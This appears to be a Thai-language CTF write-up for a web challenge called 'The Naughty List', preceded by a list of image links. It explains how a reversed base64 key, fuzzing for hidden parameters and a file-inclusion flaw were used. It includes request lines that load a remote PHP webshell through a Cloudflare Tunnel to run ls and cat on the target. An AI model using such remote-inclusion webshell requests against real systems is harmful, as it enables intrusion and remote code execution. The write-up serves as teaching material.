










## ข้อ 3: The Naughty List

> 🏆 **Challenge**:   
> 💪 **Difficulty**:  🟠 MEDIUM  
> 🎯 **Category**: Web Application Security




## การวิเคราะห์โจทย์ 
เราเริ่มต้นด้วยการสแกนหน้า **view.php** พบว่า  
- **Title** ของหน้าเป็น "Christmas Themed LFI" ที่ชี้ให้เห็นถึงช่องโหว่ Local File Inclusion (LFI)  
- มี **comment tag** ที่ฝังรหัส **base64** พร้อมข้อความ 'PHP Code Execution Section'  



## ขั้นตอนการทดสอบและแก้โจทย์    

### 🔓 Decode Base64  
เรานำ **base64** ไป **decode** และ **reverse string** ได้ข้อความว่า **Oh no! Key is 'santa'**  


 

### 🕵️‍♂️ Fuzzing for hidden parameters discovery  
เราทดลอง **FUZZ** ด้วย x8 tool หา `parameter` จนเจอ **'secret'** ลองใส่คีย์ `santa` ผลลัพธ์กลับมาว่า **'Secret key accepted'**  



 
เราทำการ **FUZZ** อีกครั้งและพบ **'file'** เป็น parameter สำคัญ! เมื่อทดลองใส่ `index.php` ผลตอบรับคือการแสดงโค้ดของ index.php  



## จากการทดสอบพบว่า:
   - พบ parameters ที่ซ่อนอยู่ของไฟล์ view.php คือ `secret` สำหรับรับ `key` และ `file` สำหรับอ่านไฟล์ ซึ่งก็คือช่องโหว่ Local File Inclusion

## ขั้นตอนการโจมตี

### 🛠️ สร้าง Webshell  
เพื่อที่จะทำ **Remote File Inclusion (RFI)** เราได้สร้างไฟล์ **PHP** เพื่อให้ใช้ Command Injection ได้และทำการเปิด **Webserver** ผ่าน **Cloudflare Tunnel**   



### 🔑 การค้นหา Flag  
สุดท้าย เราใส่คำสั่งเพื่อหา **flag** และค้นพบไฟล์ **flag_xxx.txt** ที่เปิดอ่านได้และพบคำตอบที่ตามหา!  

ใช้คำสั่ง:
```
?view.php?secret=santa&file=<url cloudflare tunnel>/shell.php?cmd=ls
```
**ผลลัพธ์:** ได้รายการไฟล์ และเห็นไฟล์ flag ในเครื่องเป้าหมายแล้ว



และทำการอ่านไฟล์ flag

ใช้คำสั่ง:
```
?view.php?secret=santa&file=<url cloudflare tunnel>/shell.php?cmd=cat flag_xxx.txt
```
**ผลลัพธ์:** พบ **Flag** สำหรับโจทย์ข้อนี้!



### ✅ บทสรุปจากโจทย์นี้  
เราจะได้เรียนรู้เกี่ยวกับการใช้ LFI, Decode Base64, และเทคนิคการ **FUZZ** รวมทั้งการสร้าง RFI ผ่าน webshell ซึ่งล้วนเป็นทักษะสำคัญสำหรับการจัดการช่องโหว่ในโลก cybersecurity!  

---